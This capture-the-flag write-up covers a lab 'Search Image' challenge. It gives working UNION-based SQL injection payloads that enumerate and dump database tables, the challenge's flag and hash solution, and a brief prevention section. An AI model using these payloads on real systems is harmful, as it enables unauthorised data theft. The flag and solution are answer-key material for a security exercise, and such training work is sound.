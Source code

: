 # <span style="text-decoration: underline"> Search Image </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : green">Easy</span>

___


# <span style="text-decoration: underline">problem</span>

When we visit the `SEARCH IMAGE` page from **Home page** we see a page where there is an input for **image number** and a `submit` btton. Like other input in this project this could be a way to do `sql injection` To test we could simply try the `'` character. When we set `'` as input character and siubmit, nothing happens. Let's try `1=0`. Yes!! We have aresult with all the image `name` and `urls`.

# <span style="text-decoration: underline">Solution</span>

## Get the table name of our default database

We have found out many database and table names in the [member](/member.md) challenge. Let's try to findout in which tables does this database (default) contains, from this input.

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

And we get the following result.

```sql
ID: 1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) -- 
Title: list_images
Url : 1
```

We can see that there is a table called `list_images`. In the [member](/member.md) challenge. we have found out the names of the columns for this table

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`|
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

## View content of the database

Now that we know what we have in the table let's try to extract the data using the same technique from [member](/member.md) challenge. but using the `column` names for this `table`.

```sql
1 AND 1=2 UNION SELECT title, CONCAT(CHAR(124), id, CHAR(124), url, CHAR(124), title, CHAR(124), comment, CHAR(124)) AS name FROM list_images --
```

We get the following respons

|Id|Url|Title|Comment|
|--|--|--|--|
|1|https://www.nsa.org/img.jpg|Nsa|An image about the NSA !|
|2|https://www.42.fr/42.png|42 !|There is a number..|
|4|https://www.obama.org/obama.jpg|Obama|Yes we can !|
|5|borntosec.ddns.net/images.png|Hack me ?|If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46|
|6|https://www.h4x0r3.0rg/tr0ll.png|tr00l|Because why not ?|

## UnHash and Rehash

Much like the [member](/member.md) challenge, we also get a `md5` string that we have to transform it to **lowercase** and then hash it using `sha256`.

- The `md5` hash `1928e8083cf461a51303633093573c46` is of the word `albatroz`
- It is already all lowercase
- The sha256 sum of the word `albatroz` is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# <span style="text-decoration: underline">How to avoid the problem</span>

Contrary to the challenge [member](/member.md) challenge, they have removed the `error` messages of bad user inputs but did not do anything agains't correct `sql` query as input. Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string. 

# <span style="text-decoration: underline">Flag</span>

```text
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

?> Node : This is the same `flag` as the one we found during the [copytight](/copyright.md) challenge

# <span style="text-decoration: underline">Resources</span>

- [member challenge](/member.md)
